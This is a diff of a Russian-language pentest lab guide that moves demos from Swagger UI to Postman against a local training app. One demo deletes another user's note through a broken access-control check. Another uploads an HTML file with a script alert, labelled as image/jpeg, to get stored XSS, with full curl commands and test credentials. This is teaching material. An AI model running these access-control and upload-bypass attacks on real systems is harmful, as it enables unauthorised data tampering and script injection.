

Before and after one commit to tnhllby/crypto-project, a Markdown page: PENTEST_LAB_GUIDE.md, 2 parts joined by grey strips. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: replace Swagger UI attack demos with Postman in pentest guide

````diff
--- a/PENTEST_LAB_GUIDE.md
+++ b/PENTEST_LAB_GUIDE.md
@@ -332,27 +354,32 @@ done
 
 ---
 
-### Демо 2.3 — Удаление чужой заметки через Swagger UI
+### Демо 2.3 — Удаление чужой заметки через Postman
 
-**Шаг 1.** Войди в Swagger UI как `alice`:
-- **POST /api/auth/login** → Execute с `{"username":"alice","password":"alice123"}`
+**Шаг 1.** Войди как `alice` через Postman:
+- **POST** → `http://localhost:5000/api/auth/login`
+- Body → raw → JSON:
+  ```json
+  {"username": "alice", "password": "alice123"}
+  ```
+- Нажми **Send** → статус 200, Postman сохранил session cookie alice.
 
-**Шаг 2.** Проверь свои заметки — **GET /api/notes** → Execute.
-Запомни количество заметок у alice.
+**Шаг 2.** Проверь свои заметки:
+- **GET** → `http://localhost:5000/api/notes` → **Send**
+- Запомни количество заметок у alice.
 
-**Шаг 3.** Перейди к **DELETE /api/notes/{note_id}**.
-- Нажми **Try it out**
-- Введи `note_id = 1` (заметка admin)
-- Нажми **Execute**
+**Шаг 3.** Удали чужую заметку (принадлежит admin, id=1):
+- **DELETE** → `http://localhost:5000/api/notes/1`
+- Нажми **Send**
 
-**Ожидаемый ответ (HTTP 200):**
+**Ожидаемый ответ (Status: 200 OK):**
 ```json
 {
   "message": "Note 1 deleted"
 }
 ```
 
-**Шаг 4.** Войди как admin и убедись — заметка удалена, хотя alice никогда не была её владельцем.
+**Шаг 4.** Войди как admin в браузере и убедись — заметка удалена, хотя alice никогда не была её владельцем.
 
 ---
 
@@ -759,20 +799,37 @@ http://localhost:5000/uploads/payload.html
 
 ---
 
-### Демо 6.2 — Загрузка через curl (обход клиентского accept="image/*")
+### Демо 6.2 — Загрузка через Postman (обход клиентского accept="image/*")
 
-Атрибут `accept="image/*"` в HTML-форме — это подсказка браузеру, не защита. Curl отправляет любые файлы:
+Атрибут `accept="image/*"` в HTML-форме — это подсказка браузеру, не защита. Через Postman можно отправить любой файл:
 
+**Шаг 1.** Убедись что залогинен как alice (cookie сохранён из предыдущих запросов).
+
+**Шаг 2.** Создай файл `xss.html` с содержимым:
+```html
+<script>alert("XSS via file upload!")</script>
+```
+
+**Шаг 3.** В Postman: **POST** → `http://localhost:5000/profile`
+
+**Шаг 4.** Вкладка **Body** → выбери **form-data**:
+- Key: `avatar`, Type: **File** (выбери из выпадающего — кнопка справа от поля Key)
+- Value: выбери файл `xss.html`
+
+**Шаг 5.** Нажми **Send**. Ожидаемый статус: 200.
+
+**Шаг 6.** Открой в браузере: `http://localhost:5000/uploads/xss.html`
+
+**Ожидаемый результат:** браузер выполняет JavaScript из загруженного HTML-файла.
+
+Альтернативно через curl:
 ```bash
-# Создаём тестовый файл
-echo '<script>alert("XSS via file upload!")</script>' > xss.html
-
 # Авторизация
 curl -s -c cookies.txt -X POST http://localhost:5000/api/auth/login \
      -H "Content-Type: application/json" \
      -d '{"username":"alice","password":"alice123"}'
 
-# Загрузка HTML-файла в форму профиля
+# Загрузка HTML-файла с указанием MIME image/jpeg (обход проверки типа)
 curl -s -b cookies.txt \
      -F "avatar=@xss.html;type=image/jpeg" \
      http://localhost:5000/profile -L -o /dev/null -w "Status: %{http_code}\n"
@@ -780,10 +837,6 @@ curl -s -b cookies.txt \
 # Проверяем что файл доступен
 curl -s http://localhost:5000/uploads/xss.html
 ```
-
-**Ожидаемый результат:**
-- Последняя команда вернёт содержимое `xss.html`
-- Открыв `http://localhost:5000/uploads/xss.html` в браузере — получим XSS
 
 ---
 
````
Also changed, not shown: other parts of PENTEST_LAB_GUIDE.md (+94 -44 lines).
